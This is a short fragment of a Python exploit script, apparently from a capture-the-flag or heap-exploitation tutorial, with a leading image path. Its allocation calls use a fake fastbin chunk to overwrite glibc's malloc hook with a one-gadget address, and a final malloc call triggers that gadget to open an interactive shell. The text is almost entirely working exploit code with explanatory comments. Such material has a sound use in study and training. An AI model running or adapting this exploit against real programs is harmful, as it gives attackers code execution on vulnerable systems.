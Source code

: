 ```python
malloc(0x68, b"E"*8, b"E"*8)
malloc(0x68, b"F"*8, b"F"*8)

# The next request for a 0x70-sized chunk is serviced by the fake chunk near the malloc hook.
# Use it to overwrite the malloc hook with the address of a one-gadget.
malloc(0x68, b"X"*0x13 + p64(libc.address + 0xe1fa1), b"G"*8) # [rsp+0x50] == NULL

# The next call to malloc() will instead call the one-gadget and drop a shell.
# The argument to malloc() is irrelevant, as long as it passes the program's size check.
malloc(1, b"", b"")

# =============================================================================

io.interactive()
```

